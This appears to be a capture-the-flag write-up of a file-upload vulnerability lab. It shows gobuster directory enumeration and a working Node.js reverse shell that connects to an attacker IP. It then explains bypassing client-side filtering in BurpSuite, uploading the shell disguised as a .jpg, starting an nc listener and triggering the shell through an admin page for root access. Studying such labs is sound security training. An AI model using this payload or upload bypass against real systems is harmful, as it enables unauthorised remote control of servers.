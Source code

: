
1 - Run gobuster to find web pages:
```bash
root@ip-10-10-251-63:~# gobuster dir -u http://jewel.uploadvulns.thm -w /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://jewel.uploadvulns.thm
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2023/12/05 23:22:43 Starting gobuster
===============================================================
/ADMIN (Status: 200)
/Admin (Status: 200)
/Content (Status: 301)
/admin (Status: 200)
/assets (Status: 301)
/content (Status: 301)
/modules (Status: 301)
===============================================================
2023/12/05 23:23:30 Finished
===============================================================
```

With webaplazer we can see that it is powered by -> Node.Js & Express Framework

Node.Js Reverse Shell:
```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(8080, "10.10.251.81", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```

Clear the cache for the page cause it cached locally & in the proxy setting dont forget to make .js file interceptable

Once that is done retrieve the responce to the GET upload.js  in BurpSuite
& delete the filter client side

Even when client side filtering is deleted there is still a server side filtering

So upload the reverse shell as .jpg file and found it with 
```bash
root@ip-10-10-251-63:~# gobuster dir -u http://jewel.uploadvulns.thm/content/ -w wordlist.txt -x jpg
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://jewel.uploadvulns.thm/content/
[+] Threads:        10
[+] Wordlist:       wordlist.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     jpg
[+] Timeout:        10s
===============================================================
2023/12/05 22:47:55 Starting gobuster
===============================================================
/ABH.jpg (Status: 200)
/ECI.jpg (Status: 200)
/LKQ.jpg (Status: 200)
/SAD.jpg (Status: 200)
/UAD.jpg (Status: 200)
===============================================================
2023/12/05 22:50:06 Finished
===============================================================
root@ip-10-10-251-63:~#
```
once u found it you can execute it in the /admin page

First of all you need to set up a listener :
```nc -lnvp [port_in_reverseShell]```

After that in the /admin page type:
```../content/SGO.jpg```

And now we have a root shell!

